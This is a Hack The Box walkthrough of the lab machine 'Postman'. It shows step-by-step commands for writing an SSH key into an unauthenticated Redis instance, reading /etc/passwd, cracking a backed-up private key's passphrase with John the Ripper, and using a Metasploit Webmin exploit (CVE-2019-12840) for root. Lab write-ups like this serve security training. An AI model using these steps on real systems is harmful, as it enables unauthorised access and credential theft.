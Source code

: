 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/postman.html
title: Postman
logo: /assets/img/writeups/htb/boxes/postman/postman_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Easy
release: 2 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/114053">TheCyberGeek</a>
publiished: 2019 11 09
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  8 21:44:03 2019 as: nmap -sC -sV -p- -Pn -oN nmapscan.txt 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.088s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  8 21:50:09 2019 -- 1 IP address (1 host up) scanned in 366.53 seconds

```

We see a number of open ports. Checking what is on port 80 with our browser doesn't show us much of interest

![Cyber Geek](/assets/img/writeups/htb/boxes/postman/postman_webpage.png)

Checking searchsploit for webmin 1.910 we see that there is an RCE with root privileges as detailed by CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/

however that requires a credentialed user, which we don't have. If we turn our attention to the redis instance running on port 6379 tho, we see that if we can access it, it is vulnerable to this exploit

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

So lets check

```
root@kali:~/HTB/Boxes/Postman# telnet 10.10.10.160 6379
Trying 10.10.10.160...
Connected to 10.10.10.160.
Escape character is '^]'.
echo "HILBERT"
$7
HILBERT
```

Bingo! So our plan now is to try and write our SSH key onto the server and login. We need to add some whitespace to our key and then write that into Redis. We can use **redis-cli** for this. 

```
root@kali:~/HTB/Boxes/Postman# (echo -e "\n\n"; cat id_rsa_.pub echo -e "\n\n") > key.txt
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/HTB/Boxes/Postman# cat key.txt | redis-cli -h 10.10.10.160 -x set crackit
```

now we can logon to redis, and try and write our SSH key into a users .ssh folder. The default folder for redis is /var/lib/redis so if a .ssh folder has been created for redis user we can write to that.

```
root@kali:~/HTB/Boxes/Postman# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

looks like it has bee. Now lets SSH in

```
root@kali:~/HTB/Boxes/Postman# ssh -i id_rsa_ redis@10.10.10.160
<...>
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$                
```

First lets cat the /etc/passwd file so we can get the other users

```
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<...>
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

 We don't have write access to /home/Matt/.ssh unfortunately so we can't duplicate our previous exploit to gain access to user Matt. Enumerating the machine further we find a backup of an SSH key.

```
redis@Postman:~$ ls /opt
id_rsa.bak
```

Lets copy this, and see if we can crack the password on it. To do this we will use a program called John the Ripper. First we need to convert the key into a suitable format. For this we will use **ssh2john**, then we can run john the ripper on it with a wordlist to try and crack it.

```
root@kali:~/HTB/Boxes/Postman# python /usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash
root@kali:~/HTB/Boxes/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:12 DONE (2019-11-12 00:48) 0.07710g/s 1105Kp/s 1105Kc/s 1105KC/sa6_123..*7¡Vamos!
Session completed
```

We cracked the password, which is "computer2008". Let's see if we can login to Matt with this

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
517adXXXXXXXXXXXXXXXXXX08a2f3c
```

Success! We will also find that we can login to webmin on port 10000 with Matt:computer2008

<h3 align="center">On To Root</h3>

So now with valid credentials we can use CVE-2019-12840 which has a metasploit module. Make sure to set SSL to true as port 10000 is using https

![root](/assets/img/writeups/htb/boxes/postman/postman_root.png)

we can now access the root.txt flag.

